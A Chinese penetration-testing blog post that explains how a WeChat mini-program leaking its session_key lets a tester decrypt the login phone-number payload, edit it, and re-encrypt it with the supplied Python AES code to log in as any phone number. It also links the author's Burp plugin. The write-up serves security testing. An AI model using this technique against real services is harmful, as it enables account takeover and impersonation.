 ```yaml
---
layout:     post
title:    wx小程序session_key利用插件
subtitle:   burp插件
date:       2020-08-04
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 工具
    
    
    
---
```

# wx小程序session_key利用插件

## 开头
学习Poc Sir老师傅的微信小程序渗透五脉，最近在测试的过程种发现了一例快捷登录存在问题的小程序，要进行加解密，写了一个简单的burp插件，方便后续的工作。  
具体的原理这里不再进一步赘述。有兴趣的可以去看雷神众测的文章。  


## 中间
测试的时候发现一个小程序，能快捷登陆。  
![200804_1](/img/200804_login.jpg)   
抓登陆的包可以看到，啥都给出来的，显然存在问题，可以进行解密，篡改。  
![200804_2](/img/200804_logindata.jpg)  
然后来尝试加解密。  

## 加解密代码
在获取到session_key，以及iv的情况下，直接可以进行解密：  
```
#!python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import base64
from Crypto.Cipher import *


def decrypt(enStr, key, iv):
        cipher = AES.new(key, AES.MODE_CBC, iv)
        msg = cipher.decrypt(enStr)
        paddingLen = ord(msg[len(msg)-1])
        return msg[0:-paddingLen]


def decryptData(encryptedData, iv, sessionKey):
	aesIV = base64.b64decode(iv)
	aesCipher = base64.b64decode(encryptedData)
	aesKey = base64.b64decode(sessionKey)
	return decrypt(aesCipher, aesKey, aesIV)


if __name__ == '__main__':
	print decryptData(data, iv, sessionkey)
```
得到的结果格式如下：  
```
{
    "phoneNumber": "+85259883333",
    "purePhoneNumber": "59883333",
    "countryCode": "852",
    "watermark":
    {
        "appid":"APPID",
        "timestamp": TIMESTAMP
    }
}
```  
解密的结果：  
![200804_3](/img/200804_decrypt.jpg)  
然后可以对其进行修改后进行伪造，完成任意手机号码登陆。  
加密的代码：  
```
#!python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import base64
from Crypto.Cipher import AES


def encrypt(str, key, iv):
    cipher = AES.new(key, AES.MODE_CBC,iv)
    x = 16 - (len(str) % 16)
    if x != 0:
        str = str + chr(x)*x
    msg = base64.b64encode(cipher.encrypt(str))
    return msg

def encryptData(decryptedData, iv, sessionKey):
	aesIV = base64.b64decode(iv)
	aesKey = base64.b64decode(sessionKey) 
	return encrypt(decryptedData, aesKey, aesIV)

if __name__ == '__main__':
	print encryptData(data, iv, sessionKey)
```   
然后将得到的结果替换报文原来的加密内容。（这里是一次性有效的，无论成功与否）  


## 插件
简单的写了个burp的插件。  
![200804_4](/img/200804_burp.jpg)  
存在问题可以及时联系，或者自行修改
项目地址:[https://github.com/hmoytx/bp_miniprogram_decrypt](https://github.com/hmoytx/bp_miniprogram_decrypt)  

## 参考
[https://www.hackinn.com/index.php/archives/672/](https://www.hackinn.com/index.php/archives/672/)


